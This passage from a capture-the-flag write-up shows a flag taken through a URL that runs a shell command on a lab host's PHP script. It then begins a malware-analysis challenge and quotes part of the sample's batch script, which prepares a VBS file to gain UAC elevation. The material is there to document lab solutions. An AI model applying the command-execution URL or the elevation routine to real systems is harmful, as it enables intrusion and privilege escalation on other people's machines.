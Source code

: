![New payload output](../../images/auth-rce-exploit-code-output.png){: .image-process-crisp}

And the flag was found by following this link: <http://env263.target03/admin/scripts/pi-hole/php/fun.php?cmd=cat%20/var/log/dnserror.log>

![Found flag](../../images/always-dns-flag.png){: .image-process-crisp}

#### COOL VIDEO

```md
DESCRIPTION
A friend asks for help with recent movie that was downloaded from torrents: something is wrong with player.
The video is available at <https://static.ctftech.io/challs/Horror_stories_2k21-720p.zip>
QUESTION
What is the address of C&C of the malware?
The answer is expected in usual format for an Internet address - <IP>:<PORT>
```

We though this was easy. And... it took a few hours. The solution
was a lucky guess based on the C&C (Command & Control) settings.

The bat script contained some magic, but nothing revealing was there.
But we used the certutil command to get to the solution

```bat
 @echo off
 CLS
 :init
 setlocal DisableDelayedExpansion
 set cmdInvoke=1
 set winSysFolder=System32
 set "batchPath=%~0"
 for %%k in (%0) do set batchName=%%~nk
 set "vbsGetPrivileges=%temp%\OEgetPriv_%batchName%.vbs"
 setlocal EnableDelayedExpansion
:checkPrivileges
  NET FILE 1>NUL 2>NUL
  if '%errorlevel%' == '0' ( goto gotPrivileges ) else ( goto getPrivileges )

:getPrivileges
  if '%1'=='ELEV' (echo ELEV & shift /1 & goto gotPrivileges)
  
  ECHO Set UAC = CreateObject^("Shell.Application"^) > "%vbsGetPrivileges%"
  ECHO args = "ELEV " >> "%vbsGetPrivileges%"
  ECHO For Each strArg in WScript.Arguments >> "%vbsGetPrivileges%"
  ECHO args = args ^& strArg ^& " "  >> "%vbsGetPrivileges%"
  ECHO Next >> "%vbsGetPrivileges%"

  if '%cmdInvoke%'=='1' goto InvokeCmd 
```